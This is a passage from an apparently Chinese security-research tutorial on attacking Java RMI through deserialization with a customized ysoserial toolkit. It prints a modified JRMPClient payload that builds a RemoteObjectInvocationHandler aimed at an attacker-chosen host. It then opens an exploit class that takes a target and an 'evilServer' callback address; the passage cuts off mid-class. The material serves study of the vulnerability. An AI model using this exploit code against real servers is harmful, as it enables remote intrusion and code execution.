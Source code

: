 [![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-6c6634978ccbd8da56dcaf45bf28abc42f6bd52d.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-6c6634978ccbd8da56dcaf45bf28abc42f6bd52d.png)

我们想拿到某个反序列化payload直接调用对应的`getObject()`即可。

### 自定义 ysoserial exp

被攻击的**Server端**代码同前文的Demo。

**下面直接先上手写Exp。待Exp能完成攻击后再慢慢分析原理。**

该Exp需要用到`payloads/JRMPClient`的反序列化Payload。但是原本的`payloads/JRMPClient`payload返回的是`Registry`类型作payload，需要让其返回类型为`RemoteObjectInvocationHandler`。最佳方式是在源代码的基础上新增一个函数，用于返回我们需要的对象类型。具体为什么需要`RemoteObjectInvocationHandler`类型的payload，**后面会细说**

*JRMPClient.java如下，新增一个函数 getRemoteObjectInvocationHandler*

```java
.....
public class JRMPClient extends PayloadRunner implements ObjectPayload<Registry> {
public RemoteObjectInvocationHandler getRemoteObjectInvocationHandler(final String command){
    String host;
    int port;
    int sep = command.indexOf(':');
    if ( sep < 0 ) {
        port = new Random().nextInt(65535);
        host = command;
    }
    else {
        host = command.substring(0, sep);
        port = Integer.valueOf(command.substring(sep + 1));
    }
    ObjID id = new ObjID(new Random().nextInt()); // RMI registry
    TCPEndpoint te = new TCPEndpoint(host, port);
    UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));
    RemoteObjectInvocationHandler obj = new RemoteObjectInvocationHandler(ref);
    return obj;
}
.....
```

在`ysoserial/exploit`下新建一个exp。命名随意，这里命名为`Pan_RMIExp1`，如下所示。该exp的主要作用是发起一个`lookup()`请求并携带`RemoteObjectInvocationHandler`：

```java
package ysoserial.exploit;

import sun.rmi.server.UnicastRef;
import sun.rmi.transport.LiveRef;
import sun.rmi.transport.tcp.TCPEndpoint;
import ysoserial.exploit.PanDomain.RemoteStubTmp;

import java.io.IOException;
import java.io.ObjectOutput;
import java.lang.reflect.Proxy;
import java.rmi.MarshalException;
import java.rmi.Remote;
import java.rmi.server.*;

public class Pan_RMIExp1 {
    public static void main(String[] args) throws Exception{
        String host = args[0];
        int port = Integer.parseInt(args[1]);
        String evilServer = args[2];
       exp1(host, port, evilServer);
    }
```